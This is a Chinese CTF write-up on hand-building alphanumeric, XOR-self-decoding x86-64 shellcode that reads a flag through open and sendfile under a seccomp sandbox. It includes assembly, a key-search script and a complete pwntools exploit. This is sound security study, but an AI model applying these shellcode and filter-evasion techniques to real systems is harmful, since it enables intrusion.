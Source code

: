 ```yaml
---
title: 一道异或手搓shellcode
date: 2024-9-1
categories: shellcode
tags: 赛后诸葛亮
---
```

# 审题
[题目附件](./pwn)
![main](./main.png)
很清晰的看到，题目是给了一个0x53的shellcode读入，并且限制必须是`0-9,A-Z,a-z`中的字符，并且直接清零了除了rsp和rip之外的所有寄存器。
![sandbox](./sandbox.png)
以及程序甚至还有沙箱，禁用了大部分系统调用，read也被禁用，而且还有第一三四个参数必须为0或1的规则。基本上只剩下了open('flag',0,0)加上sendfile的方法。

由于shellcode的字节太少，不能通过现成的ae64，alpha3之类的可视化字符生成工具来写shellcode，必须用到异或手搓。
# 思路
通过异或的方式来恢复shellcode中违规字符，那么第一步就是先编写好shellcode，并且尽可能减少其中违规字符的出现频率，以达到减少异或解码段长度的目的。
```asm
# open('flag',0,0)
push 0x67616c66
push rsp
pop rdi
push 0x2
pop rax
syscall

# sendfile(1,0,0,1)
label:
push 0x1
push 0x28
pop rax
push rdx
pop rsi
pop rdi
push rdi
pop r10
syscall
jmp label
```
如上汇编代码的机器码为
```python
shellcode = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'
shellcode+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'
```
然后编写一个简单的脚本，找出合法字符集合中是否存在字符A，能够与shellcode中的任意非法字符异或得到合法字符集中的字符(怎么突然严谨起来了)
```python
wrongset = []
wrongset.append(0x5f)
wrongset.append(0x02)
wrongset.append(0x0f)
wrongset.append(0x05)
wrongset.append(0x01)
wrongset.append(0x28)
wrongset.append(0x5e)
# 0x6a
wrongset.append(0xeb)
wrongset.append(0xf1)
# 0xa8

charset = []
for i in range(0x30,0x3a,1):
    charset.append(i)
for i in range(0x41,0x5b,1):
    charset.append(i)
for i in range(0x61,0x7b,1):
    charset.append(i)
for char in charset:
    print(chr(char))
    count = 0
    for wrongchar in wrongset:
        if wrongchar^char in charset:
            print(f'{hex(wrongchar)}^{hex(char)} in charset')
            count += 1
    print(f'{hex(char)} got {count} points')
```
结论是前面的七个非法字节都有很多字符满足条件，我最后选择了0x6a。而shellcode中的最后两个字节，也就是jmp -0xf，由于0xeb和0xf1都大于0x7f，必须要大于0x7f的数字与合法字符异或才能得到，这一部分我参考火箭的思路，选择了imul的乘法来得到大数。

接下来着手编写异或解码段，我选择了`xor [rdi+立即数],dl`作为异或。那么就需要rdi是一个指向`0x20240000`的数，由于`0x20240000`也是非法字符，所以只能通过异或来取得。

由于我是个笨蛋，没想到怎么写比较好，就抄了官方wp的前面这一部分
```
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]
```
然后就是重复使用`xor [rdi+立即数],dl`
```
xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx
```
如果有连续两个非法字符连在一起，还可以使用`dx`来一次改两个字节

接下来是处理最后的两个字节`0xEBF1`
我使用`imul r15,[rcx],0x44`，将[rcx]的值乘以0x44，放进r15。本来还想使用rsi的，能省一个字节，但问题是之后还得将rsi清零，要不然会影响syscall的结果，权衡一下还是很明确使用r15更划算。
[rcx]的值是`0x4a4e6a4a`根据我的遍历，得到了0x44是可以使用的，0x44*0x4a=0xa8。而我的遍历脚本告诉我0xa8可以与0xeb以及0xf1分别异或都能得到合法字符。

在imul之后，继续吧r15的值给rdx，继续`xor [rdi+立即数],dl`
```
push r15;pop rdx
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx # 将等会会用到的参数清零，以保证syscall得到正确结果
```
# 整体exp
```python
shellcode = asm('''
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]

xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx

imul r15,[rcx],0x44
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx
''')

# 7,9,(0xb,0xc)
shellcode+= b'\x68\x66\x6C\x61\x67\x54\x35\x6A\x68\x58\x65\x6F'
originset = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'

# 0xe,0x10,0x13,(0x17,0x18)
shellcode+= b'\x6A\x6B\x6A\x42\x58\x52\x34\x35\x57\x41\x5A\x65\x6F'
originset+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'

shellcode+= b'\x43\x59'
# a8
io.send(shellcode)

io.recvuntil('>')
flag = io.recvuntil(b'}')
print(flag)
```
咳咳，太难搞了，很多数值在规划的时候没有办法获得准确结果，必须走一步看一步。而这样就心里很没底。


